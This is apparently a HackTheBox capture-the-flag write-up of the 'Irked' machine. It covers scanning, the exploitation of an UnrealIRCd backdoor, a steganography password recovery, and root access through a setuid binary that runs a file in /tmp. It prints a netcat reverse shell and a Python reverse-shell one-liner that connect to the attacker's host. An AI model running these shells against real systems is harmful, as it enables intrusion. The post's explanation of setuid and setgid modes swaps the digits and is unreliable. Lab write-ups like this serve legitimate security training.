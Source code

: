 ```yaml
---
title: "HTB Write-up: Irked"
date: 2018-12-16
category: [HackTheBox]
tags: [HackTheBox, HTB, linux, IRC, Metasploit, msfconsole, steganography, setuid, find]
header:
    teaser: "/assets/images/htb/irked/irked.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![irked_info.png](/assets/images/htb/irked/irked_info.png)

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this intial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.117
```

From `masscan`, it was revealed that a variety of ports were listening for connections, as shown in the command output below.

```
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 8067/tcp on 10.10.10.117                                  
Discovered open port 65534/tcp on 10.10.10.117                                 
Discovered open port 80/tcp on 10.10.10.117                                    
Discovered open port 111/tcp on 10.10.10.117                                   
Discovered open port 22/tcp on 10.10.10.117                                    
Discovered open port 50167/tcp on 10.10.10.117                                 
Discovered open port 6697/tcp on 10.10.10.117 
...
```

Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 8067,65534,80,111,22,50167,6697 -sC -sV -oA scans/discovered-tcp 10.10.10.117
```

Note that while this scan is running, it's a good idea to check out what might be happening on well-known ports such as the HTTP port TCP 80. In this case, it appears the only item present on the webserver is the `irked.jpg` image which is shown below.

![irked_jpg.png](/assets/images/htb/irked/irked_jpg.png)

The results of the nmap scan revealed some interesting services listening on some uncommon ports, which suggest a good starting place for further enumeration. Note that in general, it is wise to take a broad approach during the initial enumeration process. That is to say that basic enumeration of each listening service should be completed before moving on to more focused enumeration of any particular service. In this write-up, the basic enumeration techniques are not discussed. A screenshot of the result of the nmap scan is shown below.

![nmapresults](/assets/images/htb/irked/nmapresults.png)

Of particular interest is the UnrealIRCd service running on TCP ports 6697, 8067, and 65534.

Using an IRC client such as `hexchat`, the IRC service listening on port 6697 can be accessed. If neccessary, `hexchat` can be installed using `apt-get install hexchat`. Upon connecting to the service, the server announces the running version of UnrealIRCd as 3.2.8.1. This is shown in the screenshot below.

![irc_version.png](/assets/images/htb/irked/irc_version.png)

Lesser-known and outdated services are often vulnerable to exploitation. The `searchsploit` tool can be used to search for exploits relevant to a given service. Now that the version of UnrealIRCd running on the target server is known, the command shown below can be used to search for vulnerabliities and exploits relevant to UnrealIRCd 3.2.8.1.

```
root@kali:~/workspace/hackthebox/Irked# searchsploit "UnrealIRCd 3.2.8.1"
```

The results of the search reveal that thare are a variety of exploits related to this version of UnrealIRCd, including a backdoor command exeuction Metasploit module.

![searchsploit_results](/assets/images/htb/irked/searchsploit_results.png)

The Metasploit Framework can be accessed via command line with the `msfconsole` command. Within `msfconsole`, the `exploit/unix/irc/unreal_ircd_3281_backdoor` module can be loaded and ran against the target using the options shown below.

![msfconsole_exploit.png](/assets/images/htb/irked/msfconsole_exploit.png)

Running this module with the `run` command results in a shell on the system as the `ircd` user. This session can be upgraded to a more stable shell by first connecting back to the attacking system once again, but this time outisde of `msfconsole`. In a new window on the attacking system, a listener should be set up before issuing the `nc -e /bin/bash 10.10.14.2 4444` command on the target system. From the session created over this connection, the shell can be upgraded, as demonstrated below.

![shell_upgrade.png](/assets/images/htb/irked/shell_upgrade.png)

In the `/home` directory of the target system there are two users; `ircd` and `djmardov`. The flag `user.txt` file is in the `/home/djamardov/Documents` directory, but cannot be read by the current `ircd` user. In this same directory, however, there is a file called `.backup`, the contents of which are shown below.

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

For those unfamiliar with steg, the word "steg" is short for "steganography" and is the practice of concealing a file, message, image, or video within another file, message, image or video. The contents of the `.backup` file in the home directory of `djmardov` suggets that there must be some information hidden in another file, and that `UPupDOWNdownLRlrBAbaSSss` must be the password to access the information.

A useful Linux tool for working with stegonagrphy is `steghide`. If necessary, this tool can be installed using `apt-get install steghide`. The `steghide` command shown below can be run against the `irked.jpg` image found on the webserver.

```
root@kali:~/workspace/hackthebox/Irked# steghide info irked.jpg
```

Upon running this command, the program prompts for a password, for which `UPupDOWNdownLRlrBAbaSSss` should be given, revealing the information shown below.

![steghide_info.png](/assets/images/htb/irked/steghide_info.png)

The embedded `pass.txt` file can be extracted with the following command.

```
root@kali:~/workspace/hackthebox/Irked# steghide extract -sf irked.jpg -p 
```

The `pass.txt` file can now be read and contains the data shown below.

```
Kab6h+m+bbp2J:HG
```

Returning to the target system, the password shown above can be used to switch to the `djmardov` user with the `su` command. The `user.txt` file can now be read.

![user_txt.png](/assets/images/htb/irked/user_txt.png)

## Root
With the password for `djmardov`, the target system can be accessed over SSH as the `djmardov` user. This provides for a cleaner experience as compared to the upgraded shell used up until this point.

To begin searching for misconfigurations that could lead to the elevation of priveleges, a search of the file system using `find` can be performed with the purpose of locating files owned by the `root` user that have the `setuid` bit set.

```
djmardov@irked:~$ find / -user root -perm -u=s 2> /dev/null
```

The `setuid` and `setgid` flags are Unix access rights flags that allow users to run programs with the permissions of the file's owner or group respectively. The `setuid` and `setgid` bits can be set by changing a file's mode with `chmod`. An octal file mode beginning with `2` (i.e. `chmod 4755 file.sh`) will set a file's `setuid` flag, and an octal file mode beginning with `4` (i.e. `chmod 2755 file.sh`) will set a file's `setgid` flag.

 Sometimes, a program owned by the `root` user that has the `setuid` bit set can be used to elevate privleges to `root`, since whenever the program is run it is run with `root` level permissions.  While it is common for certain programs owned by the `root` user to have the `setuid` flag set, it is important to keep an eye out for anything out of the ordinary.

The result of the aformentioned `find` command are shown in the image below.

![find_results.png](/assets/images/htb/irked/find_results.png)

Most of this looks normal, however the `/usr/bin/viewuser` program is not a standard `setuid` Linux binary. 

Running the `viewuser` binary displays some interesting output.

![viewuser_test.png](/assets/images/htb/irked/viewuser_test.png)

First of all, it appears that this is a custom binary that is still being developed. Secondly, it appears that the program attempts to interact with the `/tmp/listusers` file (which as suggested by the output does not exist). 

Knowing that `viewuser` is run with `root` permission and that it interacts with a nonexistent `listusers` file in the `/tmp` directory suggests a disasterous outcome, as the `/tmp` directory is world writable. This is to say that any user on the system can write to the `/tmp` directory, and therefore any user can create a `listusers` file.

To test whether the `viewuser` binary will execute code from within the `/tmp/listusers` file, a simple `ping` test can be performed. A `listusers` executable file can be written to the `/tmp` directory.

```
djmardov@irked:~$ echo "ping -c 5 10.10.14.2" > /tmp/listusers && chmod 755 /tmp/listusers
```

Next, the `tcpdump` tool can be run on the attacking system to confirm whether the target system is executing the `ping` command in the `/tmp/listusers` file.

```
root@kali:~/workspace/hackthebox/Irked# tcpdump -nni any icmp
```

The `viewuser` binary should be run again to test the `ping` command. The output on the attacking system from the `tcpdump` command confirms that the `viewuser` binary on the target system is executing shell commands in the `/tmp/listusers` file. At this point, the contents of the `/tmp/listusers` file can be replaced with a reverse shell. The Python reverse shell used for this is shown below.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

After setting up a listener on the attacking system, the `viewuser` binary should be run once again, resulting in a reverse shell as the `root` user of the target system.

![root_txt.png](/assets/images/htb/irked/root_txt.png)

